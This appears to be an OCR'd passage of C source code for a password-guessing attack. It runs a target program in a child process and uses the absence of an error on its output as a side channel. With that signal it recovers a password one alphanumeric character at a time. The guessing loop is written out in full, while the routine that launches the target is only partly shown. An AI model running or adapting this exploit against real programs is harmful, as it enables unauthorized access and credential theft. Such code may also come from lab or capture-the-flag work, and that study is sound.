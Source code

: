       close(stderr_fds[1]);
      close(stdout_fds[1]);

      fcntl(stdout_fds[0], F_SETFL, O_NONBLOCK);
      int read_res;

      usleep(1000 * 200);

      char stdin_buf[strlen(ERROR)];

      read_res = read(stdout_fds[0], stdin_buf, strlen(ERROR));

      int guess_correct = (read_res == -1);


      read_res = read(stderr_fds[0], buf, CAPACITY);

      printf("waiting for child\n");
      wait(NULL);
      close(stderr_fds[0]);
      close(stdout_fds[0]);

      return guess_correct;
    }


    int guess_next_char(char* so_far) {
      int next_char = 0;
      for (int c = 1; c < 255; ++c) {
        if (isalnum(c)) {
          int guess = test_password(so_far, c);
          printf("guess for char: %c %d\n", c, guess);
          if (guess) {
            printf("**** NEXT CHARACTER IS %c ****\n", c);
            next_char = c;
            break;
          }
        }
      }
      return next_char;
    }

    int go() {
      char guess_so_far[1024];
      guess_so_far[0] = '\0';
      int current = 0;

      while (1) {
        int next_char = guess_next_char(guess_so_far);
        if (next_char == 0) {
          break;
        }
        guess_so_far[current] = next_char;
        guess_so_far[current + 1] = '\0';
        ++current;
      }

      printf("guessed password: %s\n", guess_so_far);
    }    

    int main() {
      go();
    }